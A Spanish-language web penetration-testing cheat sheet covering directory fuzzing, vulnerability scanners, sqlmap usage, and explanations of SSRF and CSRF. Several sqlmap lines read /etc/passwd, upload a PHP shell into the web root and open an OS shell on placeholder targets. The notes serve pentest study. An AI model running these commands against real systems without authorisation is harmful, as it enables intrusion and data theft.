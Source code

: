 
# Subdominios y subdirectorios

## Dirb, gobuster, ffuf

```
dirb http://<IP> /usr/share/wordlists/dirb/common.txt  
  
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt  
  
ffuf -w /usr/share/wordlists/wfuzz/general/big.txt -u http://<IP>/FUZZ -fw 1
```


# Detección de vulnerabilidades

## Nikto

```
nikto -h <IP>
```

## Nuclei

```
nuclei -u http://<IP>
```


# SQLi

Interceptamos las peticiones con Burp, la guardamos como 'req', por ejemplo y lanzamos sqlmap:

```
sqlmap -r req.txt
```

Leer un fichero:

```
sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"
```

Escribir/subir un fichero:

```
sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```

Shell:

```
sqlmap -u "http://www.example.com/?id=1" --os-shell
```

Enumerar bases de datos:

```
sqlmap -r req.txt --dbs
```

Ver tablas:

```
sqlmap -r req.txt -D <BD> --tables
```

Dump:

```
sqlmap -r req.txt -D <BD> -T <Table> --dump
```


# SSRF (Server-Side Request Forgery)

Se suele ver cuando el usuario puede insertar una url.
Collaborator y si llega la petición, es SSRF.

Imagina que una aplicación tiene una función que permite al usuario mostrar imágenes a partir de una URL que proporciona, por ejemplo:

```
http://victima.com/showImage?url=http://example.com/image.jpg
```

Un atacante podría cambiar el parámetro `url` por una dirección interna o un servicio que no debería ser accesible, como por ejemplo:

```
http://victima.com/showImage?url=http://localhost/admin
```

Si el servidor no valida esta URL, puede hacer una solicitud interna a su propio sistema, mostrando información privada o realizando acciones no autorizadas.

El objetivo de un ataque SSRF es que **el servidor víctima haga una petición a un recurso externo o interno controlado por el atacante**.

Para comprobar si el servidor está haciendo esas peticiones, necesitas una forma de detectar que el servidor ha contactado con tu sistema. Pero no siempre la respuesta está visible en la web o en la aplicación.

Aquí es donde entra Burp Collaborator.
1. Generas una URL única con Burp Collaborator.
2. Envías esa URL en un parámetro vulnerable.

Si el servidor hace la petición, Burp Collaborator lo detecta y te avisa (por ejemplo, recibe una petición DNS o HTTP).

Conclusión:
- SSRF hace que el servidor realice una petición a un sitio que tú controlas.
- Burp Collaborator te da una URL especial para ver si el servidor víctima ha contactado con esa URL.
- Así confirmas que la vulnerabilidad SSRF está presente, incluso si no ves nada en la página.

# CSRF (Cross-Site Request Forgery)

Ejemplo:

- **Estás logueado** en un sitio web (por ejemplo, tu banco).
- Mientras estás logueado, visitas otro sitio web que no tiene nada que ver con tu banco (un sitio malicioso).
- Ese sitio malicioso tiene un código que **envía una petición al banco usando tu sesión activa sin que tú lo sepas**.
- Como estás logueado en el banco, la petición parece legítima y el banco la procesa, haciendo algo que tú no querías (como transferir dinero).


# Vulnerabilidades web posibles

Suele dejar reportar: XSS, SQLi, Path traversal, RCE, Unrestricted File Upload, SSRF, CSRF, etc.

# Wordlists

* PayloadAllTheThings: https://github.com/swisskyrepo/PayloadsAllTheThings
* SecLists: https://github.com/danielmiessler/SecLists
* Rockyou.


# Mis notas ampliadas sobre pentest web

Más info y comandos en: https://github.com/Creanyx0/Offensive-Security-Notes---Creanyx0/blob/main/Offensive%20Security%20Notes%20-%20Creanyx0.md

